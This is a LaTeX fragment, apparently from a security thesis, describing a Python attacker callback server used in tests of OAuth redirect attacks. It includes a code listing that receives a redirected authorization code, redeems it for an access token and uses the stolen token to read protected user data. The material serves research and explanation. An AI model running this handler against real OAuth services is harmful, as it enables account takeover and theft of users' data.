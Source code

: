 \documentclass[
    fontsize=12pt,
    headings=small,
    parskip=half,           %
    bibliography=totoc,
    numbers=noenddot,       %
    open=any,               %
    ]{scrreprt}
\begin{document}
\subsubsection{Attacker callback server}
The attacker callback server is a service implemented using the Python ``http.server'' library, which serves the purpose of a callback handler for attacks that redirect the victim's OAuth flows to the attacker. This means if an authorization code or access token ends up being redirected to this callback server it immediately completes OAuth flows with the stolen authorization codes or access tokens and generates traffic at the auth orization server like this. An example implementation for such a callback handler is shown in figure \ref{lst:attacker_server}. The ``do\_GET'' method (line 2) is executed, whenever a GET request reaches the attacker server. If this request contains an authorization code parameter (line 7), the server tries to redeem it at the authorization server (line 16). The server then tries to access protected data at the resource server (line 21).

\begin{minipage}\linewidth
\begin{lstlisting}[language={python}, caption={Example implementation of an attacker server, which handles redirections}, label={lst:attacker_server}] 
class OAuthCallback(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_url = urlparse(self.path)
        query_params = parse_qs(parsed_url.query)

		# Abort if there is no 'code' parameter present.
        assert query_params["code"] is not None

		# Fetch access token with code
        auth_code=query_params["code"]
        data = {"grant_type": "authorization_code",
                  "code": auth_code,
                  "redirect_uri": REDIRECT_URI,
                  "client_id": CLIENT_ID,
                  "client_secret": ""}
        res = r.post(f"{AUTHORIZATION_SERVER_URL}/oauth/token", data=data)
        access_token_data = res.json()

        # Utilize stolen access token
        headers = {"Authorization": f"Bearer {access_token_data['access_token']}"}
        res = r.get(f"{RESOURCE_SERVER_URL}/api/me", headers=headers)
        print("whoami:", res.content)
\end{lstlisting}
\end{minipage}
\end{document}
